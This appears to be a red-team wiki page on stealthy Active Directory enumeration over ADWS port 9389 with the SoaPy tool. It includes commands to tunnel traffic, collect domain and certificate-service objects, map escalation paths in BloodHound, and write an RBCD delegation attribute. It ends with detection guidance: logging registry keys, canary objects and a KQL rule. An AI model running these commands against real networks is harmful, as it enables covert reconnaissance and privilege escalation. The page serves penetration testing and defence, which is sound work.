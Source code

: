 # Active Directory Web Services (ADWS) Enumeration & Stealth Collection

## What is ADWS?

Active Directory Web Services (ADWS) is **enabled by default on every Domain Controller since Windows Server 2008 R2** and listens on TCP **9389**.  Despite the name, **no HTTP is involved**.  Instead, the service exposes LDAP-style data through a stack of proprietary .NET framing protocols:

* MC-NBFX → MC-NBFSE → MS-NNS → MC-NMF

Because the traffic is encapsulated inside these binary SOAP frames and travels over an uncommon port, **enumeration through ADWS is far less likely to be inspected, filtered or signatured than classic LDAP/389 & 636 traffic**.  For operators this means:

* Stealthier recon – Blue teams often concentrate on LDAP queries.
* Freedom to collect from **non-Windows hosts (Linux, macOS)** by tunnelling 9389/TCP through a SOCKS proxy.
* The same data you would obtain via LDAP (users, groups, ACLs, schema, etc.) and the ability to perform **writes** (e.g. `msDs-AllowedToActOnBehalfOfOtherIdentity` for **RBCD**).

> NOTE: ADWS is also used by many RSAT GUI/PowerShell tools, so traffic may blend with legitimate admin activity.

## SoaPy – Native Python Client

[SoaPy](https://github.com/logangoins/soapy) is a **full re-implementation of the ADWS protocol stack in pure Python**.  It crafts the NBFX/NBFSE/NNS/NMF frames byte-for-byte, allowing collection from Unix-like systems without touching the .NET runtime.

### Key Features

* Supports **proxying through SOCKS** (useful from C2 implants).
* Fine-grained search filters identical to LDAP `-q '(objectClass=user)'`.
* Optional **write** operations ( `--set` / `--delete` ).
* **BOFHound output mode** for direct ingestion into BloodHound.
* `--parse` flag to prettify timestamps / `userAccountControl` when human readability is required.

### Installation (operator host)

```bash
python3 -m pip install soapy-adws   # or git clone && pip install -r requirements.txt
```

## Stealth AD Collection Workflow

The following workflow shows how to enumerate **domain & ADCS objects** over ADWS, convert them to BloodHound JSON and hunt for certificate-based attack paths – all from Linux:

1. **Tunnel 9389/TCP** from the target network to your box (e.g. via Chisel, Meterpreter, SSH dynamic port-forward, etc.).  Export `export HTTPS_PROXY=socks5://127.0.0.1:1080` or use SoaPy’s `--proxyHost/--proxyPort`.

2. **Collect the root domain object:**

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
      -q '(objectClass=domain)' \
      | tee data/domain.log
```

3. **Collect ADCS-related objects from the Configuration NC:**

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
      -dn 'CN=Configuration,DC=ludus,DC=domain' \
      -q '(|(objectClass=pkiCertificateTemplate)(objectClass=CertificationAuthority) \\
           (objectClass=pkiEnrollmentService)(objectClass=msPKI-Enterprise-Oid))' \
      | tee data/adcs.log
```

4. **Convert to BloodHound:**

```bash
bofhound -i data --zip   # produces BloodHound.zip
```

5. **Upload the ZIP** in the BloodHound GUI and run cypher queries such as `MATCH (u:User)-[:Can_Enroll*1..]->(c:CertTemplate) RETURN u,c` to reveal certificate escalation paths (ESC1, ESC8, etc.).

### Writing `msDs-AllowedToActOnBehalfOfOtherIdentity` (RBCD)

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@dc.ludus.domain \
      --set 'CN=Victim,OU=Servers,DC=ludus,DC=domain' \
      msDs-AllowedToActOnBehalfOfOtherIdentity 'B:32:01....'
```

Combine this with `s4u2proxy`/`Rubeus /getticket` for a full **Resource-Based Constrained Delegation** chain.

## Detection & Hardening

### Verbose ADDS Logging

Enable the following registry keys on Domain Controllers to surface expensive / inefficient searches coming from ADWS (and LDAP):

```powershell
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics' -Name '15 Field Engineering' -Value 5 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Expensive Search Results Threshold' -Value 1 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Search Time Threshold (msecs)' -Value 0 -Type DWORD
```

Events will appear under **Directory-Service** with the full LDAP filter, even when the query arrived via ADWS.

### SACL Canary Objects

1. Create a dummy object (e.g. disabled user `CanaryUser`).
2. Add an **Audit** ACE for the _Everyone_ principal, audited on **ReadProperty**.
3. Whenever an attacker performs `(servicePrincipalName=*)`, `(objectClass=user)` etc. the DC emits **Event 4662** which contains the real user SID – even when the request is proxied or originates from ADWS.

Elastic pre-built rule example:

```kql
(event.code:4662 and not user.id:"S-1-5-18") and winlog.event_data.AccessMask:"0x10"
```

## Tooling Summary

| Purpose | Tool | Notes |
|---------|------|-------|
| ADWS enumeration | [SoaPy](https://github.com/logangoins/soapy) | Python, SOCKS, read/write |
| BloodHound ingest | [BOFHound](https://github.com/bohops/BOFHound) | Converts SoaPy/ldapsearch logs |
| Cert compromise | [Certipy](https://github.com/ly4k/Certipy) | Can be proxied through same SOCKS |

## References

* [SpecterOps – Make Sure to Use SOAP(y) – An Operators Guide to Stealthy AD Collection Using ADWS](https://specterops.io/blog/2025/07/25/make-sure-to-use-soapy-an-operators-guide-to-stealthy-ad-collection-using-adws/)
* [SoaPy GitHub](https://github.com/logangoins/soapy)
* [BOFHound GitHub](https://github.com/bohops/BOFHound)
* [Microsoft – MC-NBFX, MC-NBFSE, MS-NNS, MC-NMF specifications](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nbfx/)

